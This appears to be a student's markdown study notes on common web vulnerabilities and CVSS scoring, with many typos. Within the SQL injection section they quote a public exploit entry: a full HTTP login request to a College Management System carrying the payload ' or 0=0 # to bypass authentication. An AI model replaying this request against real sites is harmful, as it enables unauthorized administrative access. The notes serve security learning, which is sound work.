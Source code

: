 # Common Web VUlnerabilires:

## Broken Auth/ Access Control:
Are among the most common and most dangerous VUlnerabilires for we app.
- Broken auth refers to vulnerability that allow attacker bypassing auth
funtions, this may allow attackers to login without having a valid ser of credential or allow a normal urser become the admin.
- Broken access control refers to vulnerabilities that allow attackers toa access pages and ft they should not have access to.
## Malicious File Upload:
Another common way to gain control over web app is through uploading malicius script, somo dev do perform checks and attems the validation
uploaded files, theshe cheks can often bypassed.
## Command Injection
Many Web app execute local Operating System commands to perform certain processes, type of [Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
This vulnerability is widespread, as developers may not properly sanitize user user input or user weak test to do so, allowing attackers to bypassing
any checks or filtering.
## SQLINjection
Similar to command injection may be occur when the user app executers a SQLquery. Example:
```php
$query = "select * from users where name like '%$searchInput%'";
```
If a user input is not properly filtered and validatied, we may execute another SQL query alongside this query. Example:
```js
# Exploit Title: College-Management-System 1.2 - Authentication Bypass
# Author: Cakes
# Discovery Date: 2019-09-14
# Vendor Homepage: https://github.com/ajinkyabodade/College-Management-System
# Software Link: https://github.com/ajinkyabodade/College-Management-System/archive/master.zip
# Tested Version: 1.2
# Tested on OS: CentOS 7
# CVE: N/A

# Discription:
# Easy authentication bypass vulnerability on the application
# allowing the attacker to log in as the school principal.

# Simply replay the below Burp request or use Curl.
# Payload: ' or 0=0 #

POST /college/principalcheck.php HTTP/1.1
Host: TARGET
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://TARGET/college/principalcheck.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Cookie: PHPSESSID=9bcu5lvfilimmvfnkinqlc61l9; Logmon=ca43r5mknahus9nu20jl9qca0q
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1

emailid='%20or%200%3d0%20#&pass=asdf

```
# Public vulnerabilities:
As many organizations deploy web app thayt are publicly used, like open-source and propertary web app, these web app tend to be tested by many organizations
and expert.
CVE (Common Vulnerabilities and Exposures) record and score.
> [!TIP]
> Thhe first step is to identify the version of the web application. This can be found in many locations, like the source code of
> the web application. For open source web applications, we can check the repository of the web application and identify
> where the version number is shown (e.g,. in (version.php) page), and then check the same page on our target web application to confirm.

Pages to exploits
- Exploitdb
- Rapiod7 DB
- Vulnerability Lab.

## Common Vulnerability Scoring CVSS
Is a open-source industry standard for assessing the severity of security vulnerabilities, this scoring system is often used as a standard  measurement for organizations
and gobermnets.
The metris are; Base, Temporal and Eviromental.

- Base: metric produce ranging 0-10, modified by applying Temporal and Eviromental metrics. [NVD](https://nvd.nist.gov/) provides CVSS scores for almost.
The current scoring system in place are CVSS v2 and CVSS v3, several dff between the this two, namely changes to the Base and Eviromental for additional metrics.
CVSS V2.0 Ratings
Severity 	Base Score Range
Low 	    0.0-3.9
Medium 	    4.0-6.9
High 	    7.0-10.0
CVSS V3.0 Ratings
Severity 	Base Score Range
None 	    0.0
Low 	    0.1-3.9
Medium 	    4.0-6.9
High 	    7.0-8.9
Critical 	9.0-10.0
[link](https://www.balbix.com/insights/cvss-v2-vs-cvss-v3/)
The NVD provides a CVSS v2 calculator and a CVSS v3 calculator that organizations can use to factor additional risk from Temporaland Environmental data unique to them.
The calculators are very interactive and can be used to fine-tune the CVSS score to our environment.

calculators:
[V2](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator)
[v3](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator)
[Guide](https://www.first.org/cvss/user-guide)

## Backend Server Vulnerabilities:
The mos critial vulnerabilities for Backend components are found in web server, as they are publicly over the TCP protocol.
As for vulnerabilities in the back-end server or the database, they are usually utilized after gaining local access to the back-end server or back-end network, which may be gained through
external vulnerabilities or during internal penetration testing.
https://academy.hackthebox.com/achievement/349590/75
